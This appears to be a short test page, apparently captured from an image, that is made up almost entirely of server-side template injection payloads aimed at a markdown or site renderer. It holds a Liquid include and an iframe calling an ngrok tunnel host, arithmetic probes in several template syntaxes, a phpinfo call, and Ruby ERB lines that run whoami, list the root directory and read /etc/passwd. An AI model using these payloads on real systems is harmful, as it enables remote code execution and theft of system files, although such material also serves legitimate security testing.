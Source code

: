 ```yaml
---
title: Testing
---
```


```
{% include_url https://c827-198-167-192-61.eu.ngrok.io/include_url %}
```

<iframe src="https://c827-198-167-192-61.eu.ngrok.io/iframe.html"></iframe>


```
200,{{phpinfo()}}
```


```
200,{{7*7}}
```

```
<%= 7*7 %>
```

```
${7*7}
```

```
<%= system("whoami") %> #Execute code
<%= Dir.entries('/') %> #List folder
<%= File.open('/etc/passwd').read %> #Read file
<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```
